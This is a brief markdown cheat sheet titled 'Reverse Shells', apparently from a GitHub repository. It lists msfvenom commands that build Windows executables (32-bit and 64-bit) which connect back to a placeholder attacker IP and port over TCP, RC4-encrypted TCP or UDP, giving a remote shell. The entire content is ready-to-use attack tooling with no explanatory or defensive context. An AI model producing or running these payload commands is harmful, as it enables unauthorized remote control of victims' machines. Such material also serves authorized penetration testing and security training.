 # Reverse Shells

- **x86 (32-bit) Payloads**

`$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x86.exe`

`$ msfvenom -p windows/shell/reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-enc-x86.exe`

`$ msfvenom -p windows/shell/reverse_udp lhost=<IP> lport=<PORT> -f exe -o shell-x86.exe`

- **x86_64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x64.exe`

`$ msfvenom -p windows/x64/shell/reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-enc-x64.exe`